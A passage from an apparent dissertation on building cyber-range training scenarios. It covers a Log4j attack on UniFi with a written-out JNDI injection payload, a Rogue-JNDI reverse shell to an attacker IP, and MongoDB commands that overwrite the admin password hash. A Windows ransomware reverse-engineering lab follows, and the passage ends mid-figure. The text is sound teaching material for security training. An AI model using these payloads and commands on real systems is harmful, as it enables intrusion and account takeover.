Furthermore, Docker entry point scripts were changed to always reload SSL certificates inside UniFi's Docker container upon new executions. This was not the default behavior, as the Docker image was previously configured to issue a file with the hashes of the certificates and check for its existence. In such cases, SSL certificates were not reloaded.

% Entrypoint Script

After the above-mentioned SSL certificates are issued, the newly created root CA's public-key certificate is needed in the attacker machine to be considered trustworthy. This way, when the trainee visits the UniFi dashboard, the website appears with a legitimate HTTPS connection. Appendix \ref{ap1:log4j_entrypoint_script} (p. \pageref{ap1:log4j_entrypoint_script}) shows details on the entry point script.

Every template file is within the scenario's setup folder. Firstly, we run a Python script that will be promptly explained. Then, we copy the root CA's public-key certificate into a special \texttt{ca-certificates} folder and run the \texttt{update-ca-certificates} command, which turns our newly placed root CA certificate into system-wide trusted. So, every digital certificate signed by this new root CA will be deemed safe. After this, we need the Firefox browser to consider this CA safe. So we copied the \texttt{policies.json} file into a special folder.

\begin{lstlisting}[caption=Firefox's Policies File.,numbers=none,label={lst:firefox_json_policies}]
{
    "policies": {
      "Certificates": {
        "ImportEnterpriseRoots": true,
        "Install": [
          "ca.crt",
          "/setup/ca.crt"
        ]
      }
    }
  }
\end{lstlisting}

Listing \ref{lst:firefox_json_policies} (p. \pageref{lst:firefox_json_policies}) presents the policies file, which is read on every Firefox's new execution.

% Selenium

After loading the SSL certificates, we obtained the desired effect, an HTTPS connection when loading UniFi's dashboard. Still, there is a slight problem. When hitting the dashboard's web page for the first time, the initial wizard setup was shown. We had to overcome this by creating a Selenium script for this effect using Firefox's \textit{WebDriver}, to instruct the browser's behavior remotely. The tasks performed by Selenium can be summarized in:

\begin{itemize}
    \item Visiting UniFi's web dashboard page.
    \item Setting administrator credentials for accessing UniFi's web page. These were specified in the YAML format as custom variables of the vulnerable service in the scenario's specific variables.
    \item Clicking several wizard setup buttons to move onto more advanced setup stages.
\end{itemize}

With these configurations set, we are ready to move into the exploitation phase.

\subsubsection{Exploit} \label{sec:validation_log4j_exploit}

The goal of the Log4j exploit on UniFi's software is to obtain a reverse shell, get the secret flag, and leverage access to get the administrative credentials on the UniFi MongoDB instance.

Initially, we can dig a little into the reconnaissance process and check which ports are open by default in the victim machine using \textit{nmap}. We can see port 8443, which is where UniFi's interface is.

Then, we access the \texttt{https://example-domain.ui.com:8443} domain and get the login page from Fig. \ref{fig:log4j_unifi_initial_dashboard} (p. \pageref{fig:log4j_unifi_initial_dashboard}).

\begin{figure}[H]
    
\includegraphics[width=12cm]{figures/unifi_initial_dashboard.png}
    \caption{UniFi's Initial Dashboard.}
    \label{fig:log4j_unifi_initial_dashboard}
\end{figure}

As mentioned earlier, we need to target a field we know will be logged by Apache Log4j using a malicious JNDI query. In our case, it is the \texttt{remember} field of the POST request.

Then, we can test if the web application is vulnerable to the Log4j attack. First, we listen for connections on port 9999 using \textit{netcat} with: \texttt{nc -lnvp 9999}. From the POST request issued when submitting the login form, we only need to change the \texttt{remember} field to \texttt{\$\{jndi:ldap://172.152.0.2:9999/whatever\}} and issue the modified POST request. Notice \texttt{172.152.0.2} is the attacker machine's IP address.

As we get a connection to port 9999 from the vulnerable Log4j container, the web application is indeed susceptible to the exploit. The next step is to use the Rogue-JNDI GitHub tool\footnote{\url{https://github.com/veracode-research/rogue-jndi}} to obtain a reverse shell on the target. Essentially, this tool sets up a malicious LDAP and HTTP server for JNDI injection attacks. When the tool first receives a connection from the vulnerable client to connect to the local LDAP server, it responds with a malicious entry containing a payload that will be useful to achieve a Remote Code Execution. The steps to build upon this foundation are to stage an LDAP Referral Server that will redirect the initial client request of the victim to an HTTP server where a secondary payload is hosted that will eventually run code on the target. 

The procedures to set up the exploit include first using \textit{netcat} to listen for inbound connections on port 4444 with the command \texttt{nc -lnvp 4444} and then following the steps of Appendix \ref{ap1:unifi_clone_rogue_jndi} (p. \pageref{ap1:unifi_clone_rogue_jndi}):

\begin{enumerate}
    \item Clone the Rogue JNDI tool and build the project into a JAR file using Maven.
    \item Generate the Base64 payload that will run in the victim's server. It connects to the attacker machine on port 4444, redirecting both the standard input and standard output to the remote machine so the attacker can have complete control over the victim.
    \item Running the Rogue JNDI tool to create malicious LDAP and HTTP servers with the command that will trigger a reverse shell.
    \item Issue a cURL command with the malicious JNDI query and run the exploit.
\end{enumerate}

As a result, we obtain a reverse shell in our initial \textit{netcat} listener. We now have access to the target server under the \textit{unifi} user. Running a simple \texttt{ls -la} command, we can see there is a weird file with the name ``\texttt{...}'' (3 dots). If we open it, we find the challenge flag \texttt{flag\{l3ts\_un1f1\_e\\very0ne\_l0g4j\}}.

\subsubsection{Post Exploitation} \label{sec:validation_log4j_post_exploitation}

Some lateral movement can be performed after getting the reverse shell on the victim. For instance, we can try using \textit{hashcat} to crack the administrative credentials for the UniFi network application stored in the MongoDB instance mentioned earlier in the Docker container construction process. Or, we can add a new administrative user, for example. In an actual world setup, this would allow access to a whole new range of devices, possibly with vulnerabilities that would easily allow a way in. Persistence tasks could also be considered to enable consistent access to the victim's machine.

After getting the reverse shell prompt, we can first check if a MongoDB instance is running. We can run \texttt{ps aux | grep mongo}. The result shows port 27117 listening for incoming MongoDB connections. Then, we check which databases are available and get the contents of the \textit{admin} database.

\begin{lstlisting}[caption=Fetching Contents of MongoDB Admin Collection.,numbers=none,label={lst:unifi_mongodb_admin_contents}]
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
MongoDB shell version v3.4.4
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.4.4
{
        "_id" : ObjectId("64750f87f19ea8014a2ceb6d"),
        "name" : "test_user",
        "email" : "admin@hotmail.com",
        "x_shadow" : "$6$msad4FLZ$WwZoWNYAGbcGY3bF8HVBQ.t.69dt/ogu1nsmeTjsorz4dBl3Q0Waoya35R.Gm0qEgPoVsUorIhVRVpoiG8cFo/",
        "time_created" : NumberLong(1685393287),
        "last_site_name" : "default"
}
\end{lstlisting}

Listing \ref{lst:unifi_mongodb_admin_contents} (p. \pageref{lst:unifi_mongodb_admin_contents}) shows the existence of an administrator user named \textit{test\_user}, its email, and the password hash of the user, which can be seen in the \textit{x\_shadow} field. This is a SHA-512 hash due to the \textit{\$6\$} characters at the start. As mentioned, cracking this hash to get the provided password would be possible. However, this could take a long time, so we updated the current administrator's password. We first generate a SHA-512 hash of the string ``mypassword'' using the command \texttt{mkpasswd -m sha-512 mypassword}. Lastly, the command on Listing \ref{lst:unifi_mongodb_update_admin_password} (p. \pageref{lst:unifi_mongodb_admin_contents}) updates the administrator account password using the previously generated SHA-512 password and the \texttt{ObjectId} of the currently existing administrator from Listing \ref{lst:unifi_mongodb_admin_contents} (p. \pageref{lst:unifi_mongodb_admin_contents}).

\begin{lstlisting}[caption=Update Administrator User Account Password.,numbers=none,label={lst:unifi_mongodb_update_admin_password}]
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("64750f87f19ea8014a2ceb6d")},{$set:{"x_shadow":"$6$zsmtIX0rAM.G4P8a$TKt4eg15VC11zpQaCVS6nLHdOYOzlfjO5m3Tvle7rtc1SOvMRYTT0jBBnRc
CqY5lAOLDNst3xfGQdX99GtpD0."}})'
\end{lstlisting}

The result is that now the \textit{test\_user} account has the newly replaced password \textit{mypassword}, and we can enter UniFi's network application and completely control it.

\subsection{Ransomware Scenario} \label{sec:validation_ransomware_scenario}

The Ransomware scenario is our first Windows-based scenario, opening the door to this new dissertation scope. The initial idea was to combine both Linux scenarios and Windows scenarios. We wanted to continue using containers to maintain consistency in the overall project. Still, since the development was based on a Linux host machine, and the underlying operating system resources and drivers used were also Linux-based, there was no way to create Windows containers. This happens because Docker is an OS-Level Virtualization, and the Docker daemon provides each container the necessary kernel-level properties for it to be able to run. Due to this, Linux applications run on a Linux machine, and Windows applications run on a Windows platform. Still, there are exceptions in Windows due to the existence of \textit{Linux Subsystem}, making it possible for a Linux container to run on Windows. With this in mind, the solution we came up with was to use Linux containers with KVM installed to run a Windows Vagrant box that would allow remote control. In the case of the Ransomware scenario, the malicious payload comes in the form of an executable (\texttt{.exe}) file, and having a Windows machine to run this script was the ideal situation. 

This challenge distinguishes itself from the other scenarios because it is not attack-oriented. As such, there is no attacker machine and, therefore, no external network. Still, the final goal stays the same, which is to get the secret flag. This scenario is forensics-oriented in the sense that the trainee has to use a set of tools to debug the executable file, understand the consequences of executing the payload, and develop the reverse engineering skills necessary to get the flag.

\subsubsection{Windows Vagrant Box Inside Linux Docker Container} \label{sec:validation_windows_vagrant_inside_linux_docker}

As mentioned, one cannot run Linux and Windows containers simultaneously using the same Docker daemon. The solution to overcome this problem was to install a Windows Virtual Machine inside a Linux container. From the Docker daemon's perspective, all containers are Linux-based. Nonetheless, some of those containers run a hypervisor, on top of which there is a Windows Vagrant box. Ultimately, the goal is to configure and access the Windows machine through Remote Desktop (RDP). One may ask: \textit{Why to install a VM inside a container?} This may seem strange to many since installing the VM directly on the base OS is always possible without needing an extra container layer. However, running a VM inside a container has advantages in spinning up multiple identical Windows VMs, saving tremendous resources, mainly in terms of disk space.

When comparing a scenario where only a single VM runs directly on the base OS versus a scenario where the VM is containerized, we find both situations consume similar resources. For instance, a VM that takes 30GB of disk space will take 35GB on a containerized setup. If we run six copies of a VM, the occupied disk space increases to 180GB, as each copy takes the exact amount of disk space. The situation slightly differs in the case of six copies of containerized VMs. In Docker, there are two distinct concepts: images and containers. Images turn out to be read-only and are the core of containers that are created from a read-only layer, the image. On top of this read-only layer, they add their own read-write layer, which differs between containers. Considering the example above, where the Docker image size is 35GB when creating six containerized VMs, each container will only vary in its read-write layer interacting with the read-only image. Assuming this read-write layer has a size of 10GB, all six containers have a combined size of 60GB on top of the 35GB Docker image, making a total of 95GB. To take this even further, we could consider using linked clones in Vagrant VMs in which new VMs only differing in disk images are created using the parent disk image belonging to a master VM.

RDP access was a desirable feature in these setups, but contrary to what happens in Linux,  Windows containers cannot have a Desktop Environment. Instead, they are designed to run services and applications accessible using the PowerShell command line interface. Unlike Linux containers, where the Desktop Environment is an installable component, Microsoft ships Windows containers in a bundle directly with the OS. Microsoft published a set of known base images that form any Windows container's base. For them, there is no installable Desktop Environment component, meaning even if we opted for using Windows containers, the issue of not having the possibility of remotely controlling the UI would be present.

The architecture of the Vagrant box can be seen in Fig. \ref{fig:windows_vagrant_box_architecture} (p. \pageref{fig:windows_vagrant_box_architecture}).

\begin{figure}[H]
    
\includegraphics[width=9cm]{figures/vagrant_box_container_diagram.pdf}
    \caption{Architecture Of Windows Vagrant Box Inside Docker Container.}
    \label{fig:windows_vagrant_box_architecture}
\end{figure}

This setup enabled a fully running Windows OS accessible through RDP, containerized and managed by Docker daemon. Five different technologies are worth mentioning:

\begin{itemize}
    \item \textbf{Base Operating System}, that is the main hosting platform.
    \item \textbf{Docker Daemon}, which handles the final Docker image (\textit{Ubuntu 18.04 Linux}) out of which we will spawn a container. The Docker image's main function is to run a hypervisor on which the Windows VM will run.
    \item \textbf{Hypervisor on the Docker Image} (\textit{KVM-QEMU}), which enables the installation and management of the Windows VM.
    \item \textbf{Windows VM}, the machine, a pre-packaged Windows 10 Enterprise Evaluation Vagrant box\footnote{\url{https://app.vagrantup.com/peru/boxes/windows-10-enterprise-x64-eval}}, that is available through RDP.
\end{itemize}

The first step is to build the Docker image with the hypervisor installed. For this, we must ensure virtualization (VT-x) is enabled in the BIOS settings to launch the Virtual Machine. Then, in our \textit{Ubuntu 18.04 Linux} image, we first install the \textit{QEMU-KVM} hypervisor package and \textit{Libvirt}, which is an API library that manages KVM. Afterward, we map the \texttt{/dev/kvm} and \texttt{/dev/net/tu\\n} devices in the host OS inside the container, and the \texttt{/sys/fs/cgroup} directory in the host OS inside the container, ensuring read-write permissions on it. Also, we make the container run in privileged mode, meaning it can access almost all resources the host OS can. Another vital topic worth mentioning is the installation of Vagrant, which is necessary to run the Windows VM. We then download the respective \textit{Vagrantfile}, which contains instructions on how to build the Vagrant box, whose size is about 8.3GB.

Setting up the right \textit{iptables} rules was a challenge. This is extremely important to ensure access to the RDP port on the Vagrant box from out of the container. By default, the Vagrant box configures firewall rules to allow access only from within the hypervisor container, meaning machines external to the hypervisor container do not have access to the Windows Vagrant box. As such, rules that redirect traffic from the base OS to the Vagrant box on RDP are needed. The logic followed is depicted in Fig. \ref{fig:vagrant_iptables_rules} (p. \pageref{fig:vagrant_iptables_rules}).

\begin{figure}[H]
    
\includegraphics[width=13cm]{figures/vagrant_iptables_rules.pdf}
    \caption{Schema of Vagrant \textit{iptables} Rules.}
    \label{fig:vagrant_iptables_rules}
\end{figure}

The inserted \textit{iptables} rules on the hypervisor container concerning NAT and port forwarding from the host OS to the container were:

\begin{itemize}
    \item Forward new TCP connections on ports 3389 (RDP), 5985 (PSRP HTTP), and 5986 (PSRP HTTPS) destined to the Windows VM.
    \item Add a ``prerouting'' rule that changes the destination packet address to the Windows VM on connections reaching ports 3389, 5985, and 5986.
    \item Add a ``postrouting'' rule that changes the source packet address to the hypervisor container on connections reaching ports 3389, 5985, and 5986.
    \item Forward established and related connections from and to the Windows VM.
    \item Reject every other traffic from and to the Windows machine. Notice the previous rules take precedence over this rule.
\end{itemize}

These rules are sufficient for establishing RDP and PSRP (PowerShell Remoting Protocol) connections. The former is a protocol for remote desktop access, while the latter is a protocol that runs over WinRM. This remote management protocol uses a SOAP-based API for communication between the client and the server. Essentially, PSRP establishes remote sessions with the Windows machine, runs PowerShell commands and scripts on it, and receives the results back.

% Vagrant Box inside Linux with KVM installed (iptables, rdesktop)

The PSRP traffic redirection rules denote how to forward traffic from Ansible instructions destined for Windows machines. After we create the Windows VM, we need to configure it, so we intend to follow the same logic as previously and use Ansible to configure the Vagrant box remotely. This way, commands issued from the base OS go through the Linux hypervisor container using the above-mentioned \textit{iptables} rules and are redirected using NAT to reach the final target, the Windows VM box. This is possible using an SSH connection from the Ansible host machine to the hypervisor container, which will then redirect the traffic. Still, there are incompatibilities with these different remote access protocols between Linux and Windows: SSH and PSRP or WinRM. 

We use a PSRP Ansible connector that connects to Windows-based machines using the PSRP protocol. We could also have chosen a WinRM Ansible connector. Still, PSRP offers the possibility to use a SOCKS5 proxy, which is suited for handling connections of Windows hosts sitting behind a bastion, in our case, the hypervisor machine. So, our current setup uses two different Ansible connectors: the Docker one that connects to the Linux containers and the PSRP one that connects to the Windows VM.

In the above paragraph, we mentioned the SOCKS5 proxy, which routes traffic back and forth between two distinct actors, acting as a middleman between the two. Packets going through this proxy are not modified nor encrypted, only in cases where traffic is encrypted through an SSH connection, as it currently happens, from the Ansible host to the bastion host. This SOCKS5 proxy is needed to forward WinRM commands to the bastion host. As mentioned, SSH creates incompatibility issues as it is only suited for remote access commands on Unix-like systems.

Fig. \ref{fig:vagrant_kvm_host} (p. \pageref{fig:vagrant_kvm_host}) shows a basic outline of the current configuration.

\begin{figure}[H]
    
\includegraphics[width=13cm]{figures/vagrant_kvm_setup.pdf}
    \caption{Ansible Host, Hypervisor Container and Vagrant Box Architecture \cite{vagrant_kvm_host_ref}.}
    \label{fig:vagrant_kvm_host}
\end{figure}

%---------------------------------

The network boundaries included in this setup include the following:

\begin{itemize}
    \item \textbf{Ansible Host to the SOCKS Listener:}
        \begin{itemize}
            \item The Ansible host forwards data using the WinRM payload encapsulated in a SOCKS packet.
            \item A SOCKS5 proxy is set up in the Ansible host.
        \end{itemize}
    \item \textbf{SOCKS Listener to the SSH client:}
        \begin{itemize}
            \item Data from the SOCKS5 proxy is sent using an internal SSH channel.
        \end{itemize}
    \item \textbf{SSH Channel:}
        \begin{itemize}
            \item All data is encrypted using the SSH protocol.
        \end{itemize}
    \item \textbf{SSH Server to the WinRM Listener:}
        \begin{itemize}
            \item The bastion host, the hypervisor container, acts as the Ansible controller and sends the WinRM traffic to the Windows VM using port 5985 or 5986.
            \item The WinRM service in the Windows VM sees the bastion host as the source of the communication and has no idea of the SSH and SOCKS implementation behind it.
        \end{itemize}
\end{itemize}

Configuring the SSH proxy that exposes the SOCKS5 proxy to channel the WinRM requests through the bastion host is rather simple. The way to go is using SSH multiplexing with \textit{ControlMaster}:

\begin{lstlisting}[caption=SSH Proxy Exposing SOCKS5 Proxy.,numbers=none,label={lst:ssh_proxy_socks5}]
ssh -o "ControlMaster=auto" -o "ControlPersist=no" -o "ControlPath=~/.ssh/cp/ssh-%r@%h:%p" -CfNq -D 127.0.0.1:1234 kvm
\end{lstlisting}

The command in Listing \ref{lst:ssh_proxy_socks5} (p. \pageref{lst:ssh_proxy_socks5}) enables SSH multiplexing, which allows reusing an existing SSH connection to establish multiple sessions without needing to re-authenticate every time, saving resources. Without this, whenever a command is executed, the SSH client would need to establish a new TCP connection and a new SSH session with the remote host. A SOCKS5 proxy is also configured on port 1234. It creates a channel with the \textit{kvm} host, an alias in the SSH configuration file for the hypervisor container, meaning our bastion host. After this is set up, we must configure which variables are associated with the hypervisor container in the Ansible environment, as shown in Listing \ref{lst:ansible_psrp_connector_variables} (p. \pageref{lst:ansible_psrp_connector_variables}).

\begin{lstlisting}[language=yaml,caption=Ansible Variables - Hypervisor Container.,numbers=none,label={lst:ansible_psrp_connector_variables}]
"ansible_user": "administrator",
"ansible_password": "vagrant",
"ansible_connection": "psrp",
"ansible_psrp_protocol": "http",
"ansible_psrp_proxy": "socks5h://localhost:1234"
\end{lstlisting}

In Ansible terms, we need the host machine to issue commands to the Windows VM as if there is no bastion host in the middle. We use the \texttt{ansible\_psrp\_proxy} variable pointing to the SOCKS5 proxy server we just specified in Listing \ref{lst:ssh_proxy_socks5} (p. \pageref{lst:ssh_proxy_socks5}). Any commands sent through it will be redirected to the Windows VM. Regarding the \texttt{socks5h} scheme, it means the DNS resolution is made in the bastion host, meaning the hypervisor container. Other variables such as \texttt{ansible\_user} and \texttt{ansible\_password} refer to the Windows VM's credentials. Regarding the \texttt{ansible\_psrp\_protocol}, we used the HTTP protocol, meaning port 5985 is used for the connections.

\subsubsection{Scenario Construction} \label{sec:validation_ransomware_construction}

The Ransomware scenario is based on the FireEye Flare-On Challenge of the 2016 edition and in the materials of Malware Analysis and Incident Forensics course of the Sapienza Università di Roma. A Ransomware attack employs encryption to hold a victim's information at ransom. The target user or organization's critical data, which includes files, databases, or entire applications, are encrypted, and a ransom is demanded to provide access. 

The Ansible construction of the scenario includes all the configurations presented in Section \ref{sec:validation_windows_vagrant_inside_linux_docker} (p. \pageref{sec:validation_windows_vagrant_inside_linux_docker}) and some little extras:

\begin{itemize}
    \item Copy of scenario files.
    \item Tool Installation:
    \begin{itemize}
        \item \textbf{IDA Free Version} - Popular tool that allows users to debug, disassemble and decompile binary files.
        \item \textbf{x64dbg} - Debugger and disassembler similar to IDA but designed mostly for Windows executables.
        \item \textbf{Process Explorer} - Provides detailed information on processes, modules, handles, and threads running in Windows.
        \item \textbf{Process Monitor} - Used for monitoring and capturing real-time system activity on Windows, including file system, registry, process, and network-related events. This tool could not be installed by default using Chocolatey, but its installation is highly recommended.
        \item \textbf{PeStudio} - Software analysis tool designed for examining files in the Windows PE (Portable Executable) format.
        \item \textbf{Resource Hacker} - Tool that analyzes, modifies, and extracts resources in Windows executable files.
    \end{itemize}
\end{itemize}

All these tools are installed by default in the Windows VM and are accessible to the trainee. As mentioned earlier, the VM is accessible through Remote Desktop, and the credentials for accessing it are \textit{vagrant:vagrant} or \textit{administrator:vagrant}.

\subsubsection{Reverse Engineering} \label{sec:validation_ransomware_solution}

The process of obtaining a solution to the challenge requires going through the reverse engineering process. The following descriptions include figures of low-level Assembly code, which should also be the trainee's focus. We will start with basic static analysis and then move to code snippets.

We start with some information \textit{PeStudio} gives us. The binary is not packed, meaning the program is not obfuscated and compressed, making the analysis process more straightforward. This can be checked by the fact that the binary's sections have very low entropy. If we make a deeper inspection, we can see the existence of the ``Resource Section'', which shows an image using \textit{Resource Hacker}. Using \textit{PeStudio}, we can also find many API imports related to Microsoft's Crypto API and other interesting imports associated with system parameters, loading resources, and locating files.

Moving on to the \textit{IDA} analysis section, the challenge consists of two files: the malware executable and an encrypted file inside a folder named \textit{briefcase}. The first block of code after the \textit{main} function builds the ``briefcase'' Unicode string, as presented in Fig. \ref{fig:ida_1} (p. \pageref{fig:ida_1}).

\begin{figure}[H]
    
\includegraphics[width=8cm]{figures/ida_1.png}
    \caption{Construction of ``briefcase'' String and Desktop Directory Path.}
    \label{fig:ida_1}
\end{figure}

The following system call is \textit{SHGetFolderPathW} and is identified by the CSIDL parameter pointing to the desktop directory. Then, the binary checks if the length of the desktop directory path is smaller than 248. If it does, the execution moves forward, concatenating the ``briefcase'' string with the desktop path and storing it in a variable. This variable is then fed to the \textit{CreateFileW} call, checking for the existence of a directory named ``briefcase'' in the Desktop. If not, execution terminates. 

\begin{figure}[H]
    
\includegraphics[width=12cm]{figures/ida_2.png}
    \caption{Debugger Trap on \textit{CloseHandle} Call.}
    \label{fig:ida_2}
\end{figure}

Fig. \ref{fig:ida_2} (p. \pageref{fig:ida_2}) shows the existence of a debugger trap because it may close a non-existent file handle in a dynamic analysis situation, in which case the debugging process immediately stops.

The next step is a \textit{GetVolumeInformationA} call fetching volume C's serial number. This value is compared against \texttt{0x7DAB1D35h}, as shown in Fig. \ref{fig:ida_3} (p. \pageref{fig:ida_3}), and means the malware targets a concrete machine that most likely doesn't match ours. If so, the execution terminates.

\begin{figure}[H]
    
\includegraphics[width=6cm]{figures/ida_3.png}
    \caption{Comparison of \textit{GetVolumeInformationA} Call With \texttt{0x7DAB1D35h}.}
    \label{fig:ida_3}
\end{figure}

To move forward in the analysis, we need to patch the binary but keep the result of the subroutine with \texttt{0x7DAB1D35h}, as this value will be later used in the execution. Fig. \ref{fig:ida_4} (p. \pageref{fig:ida_4}) shows an example of the final patching.

\begin{figure}[H]
